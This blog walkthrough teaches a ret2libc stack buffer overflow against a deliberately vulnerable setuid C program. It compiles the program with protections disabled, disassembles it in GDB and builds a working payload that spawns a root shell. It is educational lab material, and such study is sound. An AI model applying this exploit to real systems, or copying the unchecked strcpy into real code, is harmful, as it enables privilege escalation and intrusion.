

Blog: Exploiting a Stack Buffer Overflow (ret2libc method)
date published: 2019-01-18 | date updated: 2019-01-18

A stack buffer overflow occurs when a program writes to a memory address on it's call stack outside of the intended structure / space.
In this walk-through, I'm going to cover the ret2libc (return-to-libc) method.
This method of exploitation is great because it doesn't require the use of your
typical shellcode. It involves making sys calls to the functions provided to us
by libc (standard c library). We're going to use the system and exit sys
calls for demonstration.
To have a good understanding about how stack overflows work, it's extremely helpful to know how stack data structures work, and more importantly - how the call stack works. For the sake of time, I'm not going to type out how these two things work in great detail. If you want to know how these work, I would recommend watching stack and call stack.
Creating a vulnerable binary to test on
To practice carrying out a SOF, we create a vulnerable binary. The source below uses strcpy with no boundary checking. This is what makes the code vulnerable to a stack overflow attack. strcpy() will take whatever is in argv[1] and copy it into buf. Without boundary checking around strcpy() to make sure the length of argv[1] isn't greater than the width of the buffer, we can overrun the buffer and overwrite assembler instructions with our own.
#include <string.h>
#include <unistd.h>
#include <sys/cdefs.h>
int main(int argc, char** argv) {
setuid(0);
if (argc > 1) {
char buf[256];
strcpy(buf, argv[1]);
}
return 0;
}
For the sake of simplicity and keeping this article to a sane length, I disable common buffer overflow protection (BOP) mechanisms including ASLR, Canaries, and NX bit. PIE and RelRO are disabled on my system by default. I also pass an option along to make the binary 32-bit.
gcc -g -Wall -mpreferred-stack-boundary=2 -fno-stack-protector -m32 -I. -z execstack -o bin/sof src/sof.c
-g: Produces debugging information about the program that GDB (GNU Debugger) can use to aid us.-fno-stack-protector: Disables stack smashing protectors (SSP).-z execstack: Makes stack frames executable.-o sof: Output (compiled) binary name will be sof.-mpreferred-stack-boundary=2: aligns the stack boundary in our binary to 4 bytes.
ASLR can't be disabled via a compiler flag because it's a feature that's carried
out and managed by the kernel. On Fedora, Debian, and Ubuntu, ASLR can be
disabled by adding kernel.randomize_va_space = 0 to /etc/sysctl.conf or
echo 0 > /proc/sys/kernel/randomize_va_space. Other linux distributions may
require a different approach. An easy way to determine if ASLR is enabled (it
likely is if you didn't expliclity disable it) is to
cat /proc/sys/kernel/randomize_va_space. If the output is a positive number,
it's enabled.
Assembler dump breakdown
Let's disassemble the main function in our binary, break it down, and talk about what happens at an assembler level.
th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
⇒ gdb -q bin/sof
[*] No debugging session active
GEF for linux ready, type `gef' to start, `gef config' to configure
67 commands loaded for GDB Fedora 8.0.1-33.fc27 using Python engine 3.6
Reading symbols from bin/sof...done.
@gef➤ disassemble main
Dump of assembler code for function main:
0x08048416 <+0>: push ebp
0x08048417 <+1>: mov ebp,esp
0x08048419 <+3>: sub esp,0x100
0x0804841f <+9>: push 0x0
0x08048421 <+11>: call 0x8048300 <setuid@plt>
0x08048426 <+16>: add esp,0x4
0x08048429 <+19>: cmp DWORD PTR [ebp+0x8],0x1
0x0804842d <+23>: jle 0x8048447 <main+49>
0x0804842f <+25>: mov eax,DWORD PTR [ebp+0xc]
0x08048432 <+28>: add eax,0x4
0x08048435 <+31>: mov eax,DWORD PTR [eax]
0x08048437 <+33>: push eax
0x08048438 <+34>: lea eax,[ebp-0x100]
0x0804843e <+40>: push eax
0x0804843f <+41>: call 0x80482e0 <strcpy@plt>
0x08048444 <+46>: add esp,0x8
0x08048447 <+49>: mov eax,0x0
0x0804844c <+54>: leave
0x0804844d <+55>: ret
End of assembler dump.
@gef➤ q
0x08048416 <+0>: push ebp
0x08048417 <+1>: mov ebp,esp
0x08048419 <+3>: sub esp,0x100
These first few lines above are called a function prologue. push ebp pushes
our base pointer onto the stack. Then mov ebp,esp copies the value of esp
(stack pointer) into the ebp register making ebp == esp. Next,
sub esp,0x100 moves the stack pointer 256 bytes (0x100 hex = 256) towards a
lower memory address, reserving 256 bytes of data on the stack. This is space
being reserved for char buf[256].
0x0804841f <+9>: push 0x0
0x08048421 <+11>: call 0x8048300 <setuid@plt>
Push 0 onto the stack as an argument for the call to setuid().
0x08048426 <+16>: add esp,0x4
0x08048429 <+19>: cmp DWORD PTR [ebp+0x8],0x1
0x0804842d <+23>: jle 0x8048447 <main+49>
The next instruction cmp DWORD PTR [ebp+0x8],0x1 compares the first argument
of main (argc) to 1. The following jle instruction uses the result of this
comparison. It takes the result and jumps to <main+39> if the result is less
than or equal to the value stored at 0x8048412, which is 1. If you look at the
C source above, you can see this is essentially our if (argc >) {...}
condition.
0x0804842f <+25>: mov eax,DWORD PTR [ebp+0xc]
0x08048432 <+28>: add eax,0x4
0x08048435 <+31>: mov eax,DWORD PTR [eax]
0x08048437 <+33>: push eax
Here, we move the address stored at ebp+0xc into the eax register (this is the
address to element 0 of argv). Then, we add 4 bytes to the address stored in the
eax register. This results in the address of argv[1]. Next,
mov eax,DWORD PTR [eax] takes the value at argv[1] and copies it into the
eax register. push eax pushes this value onto the stack.
0x08048438 <+34>: lea eax,[ebp-0x100]
0x0804843e <+40>: push eax
lea eax,[ebp-0x100] calculates the address of ebp-0x100 and stores the
address in eax. push eax pushes this address onto the stack.
0x0804843f <+41>: call 0x80482e0 <strcpy@plt>
The call instruction does a couple of things. It pushes the address of the
instruction immediately following the call instruction onto the stack and then
does an unconditional jump to strcpy@plt. The reason a return address is
pushed onto the stack is so that when strcpy@plt finishes executing, the
program knows where to return execution.
0x08048444 <+46>: add esp,0x8
0x08048447 <+49>: mov eax,0x0
0x0804844c <+54>: leave
0x0804844d <+55>: ret
These last four instructions are a function epilog. This is just the opposite of
a function prologue. Instead of setting up the stack, the epilog cleans up the
stack. add esp,0x8 adds 8 bytes to the address esp points to. Then
mov eax,0x0 zeros out whatever is stored in the eax register. The leave
instruction does a couple of things. It releases the stack frame and then copies
the base pointer (ebp) into esp. This releases the space that was allocated
to the previous stack frame. Finally, the ret instruction pops the return
address off the stack and transfers returns execution to the address that was
pop'd.
Exploiting the SOF vulnerability
Now that we have disabled common BOP features and understand the assembler of our vulnerable binary, we will begin exploiting. One of the first things I like to do (after reviewing the assembler dump) is to verify that an overflow exists by triggering a segmentation fault. This is done by providing data to a program which in our case, get's strcpy'd into a fixed width buffer.
th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
⇒ bin/sof $(perl -e 'print "A" x 260')
[1] 6406 segmentation fault (core dumped) bin/sof $(perl -e 'print "A" x 260')
When we strcpy 260 'A' characters into the buffer, we get a segmentation fault. This is because we overwrote the four bytes of memory after the end of our buffer. Segmentation faults are exceptions that get raised by hardware with memory protection. It indicates that something tried writing to a region of memory it shouldn't have.
Creating the payload
In order to successfully call system, we need to place a few different values
on the stack, when we overflow the buffer. We need the address of "/bin/sh"
found in libc.so, an address that execution will return to when system has
finished, and an address to the system call itself.
To get the address to '/bin/sh', we can calculate it by taking the starting address of libc.so and adding the offset of '/bin/sh' to it.
To see the absolute path to the libc.so library that our binary uses, we use
ldd. This is needed for the next step.
th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
⇒ ldd bin/sof
linux-gate.so.1 (0xf7fd2000)
libc.so.6 => /lib/libc.so.6 (0xf7deb000)
/lib/ld-linux.so.2 (0xf7fd4000)
Next, we use strings to report the offset of any string it finds in libc.so
and grep the output for what we're after.
th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
⇒ strings -a -t x /lib/libc.so.6 | grep '/bin/sh'
16a23e /bin/sh
Running vmmap will also provide the starting address of libc.so when ran from
a active gdb session.
th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
⇒ gdb -q bin/sof
@gef➤ vmmap
Start End Offset Perm Path
0x08048000 0x08049000 0x00000000 r-x /home/th3v0id/repos/bufferoverflows/stack/01/bin/sof
0x08049000 0x0804a000 0x00000000 rwx /home/th3v0id/repos/bufferoverflows/stack/01/bin/sof
0xf7deb000 0xf7fa4000 0x00000000 r-x /usr/lib/libc-2.26.so
0xf7fa4000 0xf7fa5000 0x001b9000 --- /usr/lib/libc-2.26.so
0xf7fa5000 0xf7fa7000 0x001b9000 r-x /usr/lib/libc-2.26.so
0xf7fa7000 0xf7fa8000 0x001bb000 rwx /usr/lib/libc-2.26.so
0xf7fa8000 0xf7fab000 0x00000000 rwx
0xf7fcd000 0xf7fcf000 0x00000000 rwx
0xf7fcf000 0xf7fd2000 0x00000000 r-- [vvar]
0xf7fd2000 0xf7fd4000 0x00000000 r-x [vdso]
0xf7fd4000 0xf7ffc000 0x00000000 r-x /usr/lib/ld-2.26.so
0xf7ffc000 0xf7ffd000 0x00027000 r-x /usr/lib/ld-2.26.so
0xf7ffd000 0xf7ffe000 0x00028000 rwx /usr/lib/ld-2.26.so
0xfffda000 0xffffe000 0x00000000 rwx [stack]
@gef➤ q
We calculate the address by taking the start address of /usr/lib/libc-2.26.so
and add the offset of the string. I like to use printf for this. If you use
printf in gdb, you have to add shell before the command so gdb doesn't try to
interpret it as one it provides. Same applies to any shell command you want to
run in gdb.
th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
⇒ printf "0x%x\n" $((0xf7deb000 + 0x16a23e))
0xf7f5523e
To verify the address is correct, we can evaluate it in gdb, and see what string resides there. It should be '/bin/sh'.
@gef➤ x/s 0xf7f5523e
0xf7f5523e: "/bin/sh"
And now, we just need the address of system.
@gef➤ p system
$1 = {<text variable, no debug info>} 0xf7e2c540 <__libc_system>
@gef➤ q
Because I'm on a machine with an Intel processor and I compiled the binary for 32 bit systems, the addresses we found need to be reversed to conform with little-endian notation. If you have a processor that enforces little-endian notation, you will find yourself doing this often. I wrote this script that takes a memory address and reverses it.
Reverse system address
th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
⇒ raddr -a 0xf7e2c540
\x40\xc5\xe2\xf7
Reverse "/bin/sh" string address
th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
⇒ raddr -a 0xf7f5523e
\x3e\x52\xf5\xf7
And for the return address, we can use anything for the time being.
th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
⇒ raddr -a 0xdeadc0de
\xde\xc0\xad\xd
We modify the command we ran earlier, adding the reversed addresses onto the end of the payload.
#
# [ 260 x "A" characters ][ system() address ][ random address ][ '/bin/sh' address ]
#
th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
⇒ bin/sof $(perl -e 'print "A" x 260 . "\x40\xc5\xe2\xf7" . "\xde\xc0\xad\xde" . "\x3e\x52\xf5\xf7"')
@sh-4.4# whoami
root
@sh-4.4# exit
exit
[1] 9121 segmentation fault bin/sof
We successfully overflow the buffer, call system with '/bin/sh' as the first
arg, and get a shell. This works even despite the fact that when we exit from
the shell, we get a segmentation fault. There is a way to exit the shell cleanly
without triggering a segfault. What we can do instead of using 0xdeadbeef for
our return address is use the exit system call address instead. Doing so
should give us a clean exit.
@gef➤ p exit
$2 = {<text variable, no debug info>} 0xf7e1e8f0 <__GI_exit>
@gef➤ q
Reverse exit's address
th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
⇒ raddr -a 0xf7e1e8f0
\xf0\xe8\xe1\xf7
And now replace the invalid return address with it in our payload.
#
# [ 260 x "A" characters ][ system() address ][ exit() address ][ '/bin/sh' address ]
#
th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
⇒ bin/sof $(perl -e 'print "A" x 260 . "\x40\xc5\xe2\xf7" . "\xf0\xe8\xe1\xf7" . "\x3e\x52\xf5\xf7"')
@sh-4.4# whoami
root
@sh-4.4# exit
exit
th3v0id@lenovo:~/repos/bufferoverflows/stack/01|master
⇒
And get a shell with a clean exit.
Brief overview of a few common buffer overflow protection mechanisms
ASLR (Address Space Layout Randomization)
-
ASLR is a technique used to randomize the address space of programs when they start. This is done by giving program a random start address. This makes exploiting a buffer overflow more difficult because the addresses in the program become unreliable thus making it harder to consistently jump to any given address. Just like any other security mechanisms, ASLR only makes things more difficult. Not impossible.
Canary
-
Stack Canaries are used to catch stack overflows before malicious code is executed. These work by modifying function epilog and prologue regions on the stack. If a buffer is overwritten during execution, it's noticed, and results in an exception (hopefully) which bubbles up until it is caught by an exception handler. This is not always successful and there are methods for exploiting this. If you can successfully overwrite the exception handler on the stack (SEH), you can carry out your exploit, completely mitigating canaries.
RELRO (RELocation Read-Only)
-
RELRO protection makes the relocation sections that are used to resolve dynamically loaded functions, read-only. Essentially, what this means is that binaries get marked which tells the dynamic linker to resolve all symbols during the start up of a program when it's executed or when a shared library is linked to using dlopen instead of waiting to do resolution when a function is called.
NX bit (Non-executable bit)
-
Used to mark certain areas of memory as non-executable. Any processors that support the use of the NX bit will refuse to perform any write operations on marked segments of memory.
-
AMD uses the terminology "Enhanced Virus Protection" for the NX bit.
-
Intel refers to it as the "XD (eXecute Disabled) bit."
-
ARM refers to it as the "XN (eXecute Never) bit."
Further Reading
- BOF protection
- Understanding Buffer Overflow Attacks
- Stack - Abstract Data Type
- Smashing The Stack For Fun And Profit
- 0x00 sec
- Black Hat - Difference between BOF preventions and weaknesses
- Exploit Mitigation Techniques - DEP
- Shellblade ret2libc
- x64 ROP
- UAF heap overflow
- NOP sled
Tools
- GEF - GDB Enhanced Features
- SMAP - Shellcode Mapper
- Radare2
- Cutter - Radare2 QT GUI
- MSFvenom
- pwntools
- Unicorn - CPU emulator
{kind=link}
{kind=link}